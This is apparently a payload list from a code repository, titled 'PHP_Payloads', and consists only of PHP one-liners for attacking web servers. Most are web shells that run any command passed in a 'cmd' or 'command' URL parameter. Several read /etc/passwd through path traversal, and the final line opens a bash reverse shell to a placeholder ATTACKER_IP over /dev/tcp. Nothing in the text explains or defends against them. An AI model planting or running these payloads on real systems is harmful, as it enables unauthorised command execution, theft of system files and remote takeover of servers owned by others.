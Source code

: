 ##PHP_Payloads

<?php exec($_GET['cmd']); ?>

<?php system($_GET['cmd']); ?>

<?php echo exec($_GET['cmd']); ?>

<?php shell_exec($_GET['cmd']); ?>

<?php system($_GET['command']); ?>

<?php echo system($_GET['cmd']); ?>

<?php shell_exec($_GET['command']); ?>

<?php echo system($_GET['command']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php echo shell_exec($_GET['command']); ?>

<?php echo readfile('../../etc/passwd'); ?>

<?php echo file_get_contents('../../etc/passwd'); ?>

<?php $output = shell_exec('cat ../../../.passwd'); echo "$output";  ?>

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1'"); ?>
